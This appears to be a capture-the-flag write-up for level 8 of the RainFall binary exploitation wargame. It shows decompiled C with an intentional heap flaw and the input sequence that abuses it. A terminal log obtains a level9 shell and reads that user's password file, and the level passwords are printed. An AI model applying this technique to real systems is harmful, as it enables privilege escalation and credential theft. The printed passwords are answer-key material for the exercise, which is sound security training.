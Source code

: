 # Level8

## Analysis

**In `main()`:**

```c
    // print the global variables 'auth' 'service'
    printf("%p, %p\n", auth, service);

    // gets the stdin with a limit of 128 characters
    if (fgets(buf, 0x80, stdin) == 0)
        break ;
    
    // Give a value to 'auth' with a limit of 30 characters
    if (strncmp(buf, "auth ", 5) == 0)
    {
        auth = malloc(4);
        if (strlen(buf + 5) <= 30)
            strcpy(auth, buf + 5);
    }

    // free 'auth'
    if (strncmp(buf, "reset", 5) == 0)
        free(auth);
    
    // Give a value to 'service', no limit
    if (strncmp(buf, "service", 6) == 0)
        service = strdup(buf + 7);
    
    // Open shell if the 32nd character of 'auth' isn't Null
    if (strncmp(buf, "login", 5) == 0)
    {
        if (auth[0x20] != 0) // 32
            system("/bin/sh");
        else
            fwrite("Password:\n", 10, 1, stdout);
    }
```

___

## Exploit

So we need to create auth and have at least **`32`** characters in it but its limited to **`30`**

But if we create an empty `auth` and then `service`, the 32nd character of `auth` will be in `service`

Solution:
 * Create auth
   * auth
 * Create service with enough characters to change the 32nd one of auth (16)
   * service AAAAAAAAAAAAAAAA
 * Login
   * login


```
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service AAAAAAAAAAAAAAAA
0x804a008, 0x804a018
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

___

*Password: 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9*